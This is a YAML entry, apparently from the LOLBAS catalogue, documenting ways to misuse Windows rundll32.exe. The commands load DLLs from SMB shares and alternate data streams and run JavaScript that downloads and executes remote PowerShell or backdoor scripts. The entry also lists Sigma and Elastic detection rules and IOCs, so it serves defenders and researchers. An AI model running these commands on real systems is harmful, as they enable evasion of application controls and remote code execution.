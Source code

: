 ```yaml
---
Name: Rundll32.exe
Description: Used by Windows to execute dll files
Author: 'Oddvar Moe'
Created: 2018-05-25
Commands:
  - Command: rundll32.exe AllTheThingsx64,EntryPoint
    Description: AllTheThingsx64 would be a .DLL file and EntryPoint would be the name of the entry point in the .DLL file to execute.
    Usecase: Execute dll file
    Category: Execute
    Privileges: User
    MitreID: T1218.011
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
  - Command: rundll32.exe \\10.10.10.10\share\payload.dll,EntryPoint
    Description: Use Rundll32.exe to execute a DLL from a SMB share. EntryPoint is the name of the entry point in the .DLL file to execute.
    Usecase: Execute DLL from SMB share.
    Category: Execute
    Privileges: User
    MitreID: T1218.011
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
  - Command: rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();new%20ActiveXObject("WScript.Shell").Run("powershell -nop -exec bypass -c IEX (New-Object Net.WebClient).DownloadString('http://ip:port/');")
    Description: Use Rundll32.exe to execute a JavaScript script that runs a PowerShell script that is downloaded from a remote web site.
    Usecase: Execute code from Internet
    Category: Execute
    Privileges: User
    MitreID: T1218.011
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
  - Command: rundll32.exe javascript:"\..\mshtml.dll,RunHTMLApplication ";eval("w=new%20ActiveXObject(\"WScript.Shell\");w.run(\"calc\");window.close()");
    Description: Use Rundll32.exe to execute a JavaScript script that runs calc.exe.
    Usecase: Proxy execution
    Category: Execute
    Privileges: User
    MitreID: T1218.011
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
  - Command: rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();h=new%20ActiveXObject("WScript.Shell").run("calc.exe",0,true);try{h.Send();b=h.ResponseText;eval(b);}catch(e){new%20ActiveXObject("WScript.Shell").Run("cmd /c taskkill /f /im rundll32.exe",0,true);}
    Description: Use Rundll32.exe to execute a JavaScript script that runs calc.exe and then kills the Rundll32.exe process that was started.
    Usecase: Proxy execution
    Category: Execute
    Privileges: User
    MitreID: T1218.011
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
  - Command: rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();GetObject("script:https://raw.githubusercontent.com/3gstudent/Javascript-Backdoor/master/test")
    Description: Use Rundll32.exe to execute a JavaScript script that calls a remote JavaScript script.
    Usecase: Execute code from Internet
    Category: Execute
    Privileges: User
    MitreID: T1218.011
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
  - Command: rundll32 "C:\ads\file.txt:ADSDLL.dll",DllMain
    Description: Use Rundll32.exe to execute a .DLL file stored in an Alternate Data Stream (ADS).
    Usecase: Execute code from alternate data stream
    Category: ADS
    Privileges: User
    MitreID: T1564.004
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
  - Command: rundll32.exe -sta {CLSID}
    Description: Use Rundll32.exe to load a registered or hijacked COM Server payload.  Also works with ProgID.
    Usecase: Execute a DLL/EXE COM server payload or ScriptletURL code.
    Category: Execute
    Privileges: User
    MitreID: T1218.011
    OperatingSystem: Windows 10 (and likely previous versions), Windows 11
Full_Path:
  - Path: C:\Windows\System32\rundll32.exe
  - Path: C:\Windows\SysWOW64\rundll32.exe
Code_Sample:
  - Code:
Detection:
  - Sigma: https://github.com/SigmaHQ/sigma/blob/c04bef2fbbe8beff6c7620d5d7ea6872dbe7acba/rules/windows/network_connection/net_connection_win_rundll32_net_connections.yml
  - Sigma: https://github.com/SigmaHQ/sigma/blob/62d4fd26b05f4d81973e7c8e80d7c1a0c6a29d0e/rules/windows/process_creation/proc_creation_win_rundll32_susp_activity.yml
  - Elastic: https://github.com/elastic/detection-rules/blob/12577f7380f324fcee06dab3218582f4a11833e7/rules/windows/defense_evasion_unusual_network_connection_via_rundll32.toml
  - IOC: Outbount Internet/network connections made from rundll32
  - IOC: Suspicious use of cmdline flags such as -sta
Resources:
  - Link: https://pentestlab.blog/2017/05/23/applocker-bypass-rundll32/
  - Link: https://evi1cg.me/archives/AppLocker_Bypass_Techniques.html#menu_index_7
  - Link: https://oddvar.moe/2017/12/13/applocker-case-study-how-insecure-is-it-really-part-1/
  - Link: https://oddvar.moe/2018/01/14/putting-data-in-alternate-data-streams-and-how-to-execute-it/
  - Link: https://bohops.com/2018/06/28/abusing-com-registry-structure-clsid-localserver32-inprocserver32/
  - Link: https://github.com/sailay1996/expl-bin/blob/master/obfus.md
  - Link: https://github.com/sailay1996/misc-bin/blob/master/rundll32.md
  - Link: https://nasbench.medium.com/a-deep-dive-into-rundll32-exe-642344b41e90
  - Link: https://www.cybereason.com/blog/rundll32-the-infamous-proxy-for-executing-malicious-code
Acknowledgement:
  - Person: Casey Smith
    Handle: '@subtee'
  - Person: Oddvar Moe
    Handle: '@oddvarmoe'
  - Person: Jimmy
    Handle: '@bohops'
  - Person: Sailay
    Handle: '@404death'
  - Person: Martin Ingesen
    Handle: '@Mrtn9'
---
```

